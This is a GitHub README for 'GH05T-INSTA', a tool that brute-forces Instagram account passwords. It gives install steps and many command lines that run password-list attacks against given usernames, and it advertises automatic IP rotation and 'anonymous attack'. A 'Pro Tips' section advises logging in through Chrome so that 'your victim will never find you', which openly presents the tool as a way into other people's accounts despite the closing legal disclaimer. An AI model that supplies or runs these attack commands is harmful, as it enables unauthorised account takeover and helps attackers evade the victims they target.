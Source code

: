 
<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 {Linux}<p id="install"></p>

`install home\`

`cd home\`

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
## Linux Installation 3.01 

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
* You can use two ways 🤺

01 ) Command Based ⬇️ (root)

## Usage Commands 

<b>AUTO ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ ./gh05t --user your-account-username --pass your-password-option 
$ ./gh05t --user mr_77778#8 --pass 2 
$ ./gh05t --user mr_fqake#@ --pass 3 
$ ./gh05t --user jdjza888#8 --pass 4 
$ ./gh05t --user gersman_9#6# --pass 6 
$ ./gh05t --user mr_77bd778#8 --pass 7 
$ ./gh05t --user ar_fake#@ --pass 8 
$ ./gh05t --user li888#8 --pass 9 
$ ./gh05t --user mtrman_9#6# --pass 10 
$ ./gh05t --user jr_77778#8 --pass 11 
$ ./gh05t --user ig_fake#@ --pass 12 
$ ./gh05t --user hsjza888#8 --pass 13 
$ ./gh05t --user gelian_9#6# --pass 14 
$ ./gh05t --user gehsghan_9#6# --pass 15 
$ ./gh05t --user jr7778#s8 --pass 16 
$ ./gh05t --user igahacke#@ --pass 17 
$ ./gh05t --user hsjd888#8 --pass 18 
$ ./gh05t --user gehdhan_9#6# --pass 19 
$ ./gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ ./gh05t --user username --passadd pwdlocation-and-name
$ ./gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ ./gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ ./gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ ./gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ ./gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ ./gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ ./gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ ./gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ ./gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ ./gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ ./gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ ./gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ ./gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```
